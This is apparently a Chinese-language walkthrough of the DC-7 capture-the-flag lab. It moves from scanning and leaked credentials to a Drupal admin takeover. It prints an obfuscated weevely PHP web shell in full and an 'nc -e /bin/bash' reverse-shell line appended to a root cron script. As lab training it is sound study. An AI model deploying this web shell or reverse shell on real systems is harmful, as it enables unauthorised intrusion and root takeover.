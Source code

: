 ```yaml
---
title: DC-7靶场练习
date: 2021-12-31 19:23:04
tags: DC靶场系列
cover: https://raw.githubusercontent.com/todis21/image/main/img/wallhaven-wy5176_1920x1080.png
---
```


# DC-7靶场练习

## 环境

kali:192.168.10.128

dc-7:192.168.10.196

## 信息收集

靶机发现：

```
netdiscover -r 192.168.10.0/24
```

![image-20211231193327034](https://raw.githubusercontent.com/todis21/image/main/img/image-20211231193327034.png)

端口扫描

```
nmap -sS -sV -T4 -A -p- 192.168.10.196
```

![image-20211231193607875](https://raw.githubusercontent.com/todis21/image/main/img/image-20211231193607875.png)

发现靶机打开了22(ssh)和80(http)端口

打开web端`http://192.168.10.196/`

![image-20211231194235606](https://raw.githubusercontent.com/todis21/image/main/img/image-20211231194235606.png)

这个网站使用的CMS是Drupal8

![image-20211231194255615](https://raw.githubusercontent.com/todis21/image/main/img/image-20211231194255615.png)

第一反应就是使用searchsploit和MSF来寻找利用模块，但是尝试了好几个脚本和模块都没有拿到shell



翻译一下首页的内容，获取到一点点线索，并且得到线索在框外部

```
欢迎来到 DC-7
DC-7 引入了一些“新”概念，但我会让你弄清楚它们是什么。 :-)

虽然这个挑战并不是那么技术性的，但如果你需要诉诸蛮力或字典攻击，你可能不会成功。

您必须做的是“跳出”框框思考。

方法在“外”框。 :-)
```



回到网页发现Drupal是被DIY过的，重点看首页的footer部分，也就是网页的最下方的黑色区域，靶机的除了"Powered by Drupal"，还多了一个"@DC7USER"。谷歌搜索"@DC7USER"

![image-20220104112000213](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104112000213.png)

这是他的项目，可以在github上查看源码，找到配置文件`config.php`

![image-20220104112445470](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104112445470.png)

```
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

在这个文件中可以看到账号密码，

使用ssh连接,并且能够连接成功

```
ssh dc7user@192.168.10.196
```

![image-20220104113501353](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104113501353.png)

在这个目录下有两个文件，文件夹backups里面有`website.sql.gpg  website.tar.gz.gpg`这两个文件

经过百度了解到这两个是加密文件，没有利用的地方

再查看一下mbox,这里有许多长得差不多的邮件信息,发现是一个计划任务：自动备份数据库的执行情况，调用的脚本是/opt/scripts/backups.sh，是root权限执行的。

![image-20220104115113148](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104115113148.png)

## 拿shell

进入/opt/scripts/这个目录,查看backups.sh这个文件,内容如下：

```
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

在这里可以看到有两个比较少见的命令`drush`和`gpg`

经过百度得知drush命令是drupal的一套shell脚本或bat脚本，这个可以用来修改网站的admin账号的密码

```
drush user-password admin --password="123456"
```

这个命令要在/var/www/html目录下才能执行

![image-20220104202027758](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104202027758.png)

修改了密码后，去登录

登录成功后

![image-20220104203208177](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104203208177.png)

![image-20220104203232079](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104203232079.png)

![image-20220104203258438](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104203258438.png)

在这里可以写入网页，但是网页类型没有php模式

![image-20220104203620587](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104203620587.png)

这里需要自己安装插件,下载连接：

```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```

下载完成后，点击`Extend->+ install new module`选择刚下载的文件进行安装

![image-20220104204357472](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104204357472.png)

安装完成后点击Extend往下拉，勾选并启用PHP Filter模块，点击install

完成后回到写入网页的页面，可以发现这里能写php代码了

![image-20220104204924769](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104204924769.png)

用weevely生成一个木马

```
weevely generate cmd shell.php
```

* generate 代表生成木马

* a 为木马连接时的密码

* a.php 为木马的文件名

将shell.php的内容复制到Body里，title随便写，点击save

```php
<?php
$r='o.=$t{$i}^QE$k{QE$j};}QE}rQEeturnQE $o;}if (@preg_QEmaQEtch("/$kQEh(.+)QE$kf/",@QEfiQEle_get_conteQEQEnts("php://iQEQE';
$z=str_replace('EJ','','EJcreEJateEJEJ_funcEJEJtion');
$d='{$QEc=strlQEeQEQEn($k);$l=strQElen($t);$QEo=QE"";for($i=QE0;$i<$lQE;QE){for($j=QE0;QE($j<$c&QE&$i<QE$l);$j++,$QEi++){$QE';
$J='contQEents();QE@ob_enQEd_cleaQEn(QE);$r=@basQEe64_QEencode(@xQE(@gzcomQEprQEess($o),$kQE)QE);pQEriQEnt("$p$kh$r$kf");}';
$j='$k="QEdfff0aQE7f";$kh="QEa1aQE55c8c1a49"QE;QE$kf="66c1QE9f6da452"QE;$pQE="6nMQEW0DQEI50PmP4TH8";QEQEfunctioQEn x($t,$k)';
$X='nput")QEQE,$m)QE==1) {@obQE_start();@evaQEl(QE@gzunQEcompress(@x(@baQEse6QE4_decodeQEQE($m[1]),$k))QE);$o=@oQEQEb_get_';
$G=str_replace('QE','',$j.$d.$r.$X.$J);
$N=$z('',$G);$N();
?>
```



![image-20220104212119928](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104212119928.png)

得到木马地址`http://192.168.10.196/node/5`

![image-20220104212256254](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104212256254.png)

用接下来用weevely进行连接

```
weevely http://192.168.10.196/node/5 cmd
```

![image-20220104212335214](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104212335214.png)

成功拿到shell

## 提权

由上面可知，`/opt/scripts/backups.sh`脚本执行是root权限，所以只要把反弹shell命令写入该脚本即可得到root权限

```
echo 'nc -e /bin/bash 192.168.10.128 1234'>>/opt/scripts/backups.sh
```

![image-20220104213207189](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104213207189.png)

kali这边

```
rlwrap nc -lvvp 1234
```



写入成功，等待其自动执行

反弹shell成功，并拿到root权限

![image-20220104215415008](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104215415008.png)

```
cd /root
cat theflag.txt
```

拿到flag

![image-20220104215600625](https://raw.githubusercontent.com/todis21/image/main/img/image-20220104215600625.png)
